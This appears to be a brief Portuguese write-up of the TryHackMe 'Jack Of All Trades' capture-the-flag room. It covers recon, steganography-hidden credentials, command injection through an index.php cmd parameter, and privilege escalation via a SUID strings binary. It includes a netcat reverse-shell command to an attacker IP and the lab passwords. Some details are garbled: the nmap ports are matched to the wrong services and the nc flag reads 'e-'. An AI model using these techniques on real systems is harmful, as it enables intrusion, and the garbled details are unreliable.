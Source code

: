 # Jack Of All Trades
https://tryhackme.com/room/jackofalltrades

## Recon

### NMAP

PORT   STATE SERVICE VERSION
    22/tcp open  http    Apache httpd 2.4.10 ((Debian))
    80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


### Stego

- No site existe uma base64 que ao decodificar, nos da a senha __u?WtKSraq__
- Essa senha consegue abrir as imagens stego.jpg e __header.jpg__ onde tem a conta cms -> jackinthebox:TplFxiSHjY

### RCE

- Na página principal existe um comentario de um página __/recovery.php__
- As credenciais escondidas no __header.jpg__ são usadas para login
- O /index.php aceita parametro __cmd__ -> /index.php?cmd=nc <IP> 4444 e- /bin/sh

## Privesc

- Em /home existe uma lista com hashes da senha de jack para ssh -> jack:ITMJpGGIqg1jn?>@
- O binário /usr/bin/strings tem permissão suid que da para pegar a ultima flag em /root/root.txt
